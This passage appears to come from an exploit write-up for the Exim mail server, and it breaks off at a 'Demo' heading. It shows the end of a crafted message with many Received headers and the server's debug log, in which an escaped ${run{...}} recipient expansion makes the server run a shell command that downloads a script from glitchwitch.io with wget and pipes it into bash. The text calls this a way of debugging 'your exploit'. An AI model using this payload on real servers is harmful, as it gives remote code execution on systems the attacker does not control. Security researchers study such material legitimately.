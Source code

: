 ```
Received: 26
Received: 27
Received: 28
Received: 29
Received: 30
Received: 31

.
```

If we take a look at our exim server, we should see the following output on our terminal.

```
11009 **** SPOOL_IN - No additional fields
11009 body_linecount=0 message_linecount=35
11009 DSN: set orcpt: NULL  flags: 0
11009 post-process ${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost (2)
11009 LOG: MAIN
11009   ** ${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost: Too many "Received" headers - suspected mail loop
11009 direct command:
11009   argv[0] = /bin/sh
11009   argv[1] = -c
11009   argv[2] = wget	https://glitchwitch.io/payload	-O	-	|	bash
11009   argv[3] = }
11009 direct command:
11009   argv[0] = /bin/sh
11009   argv[1] = -c
11009   argv[2] = wget	https://glitchwitch.io/payload	-O	-	|	bash
11009   argv[3] = }
```
Notice the `direct command` section which displays the executed payload. This can be very helpful for debugging your exploit.

## Demo
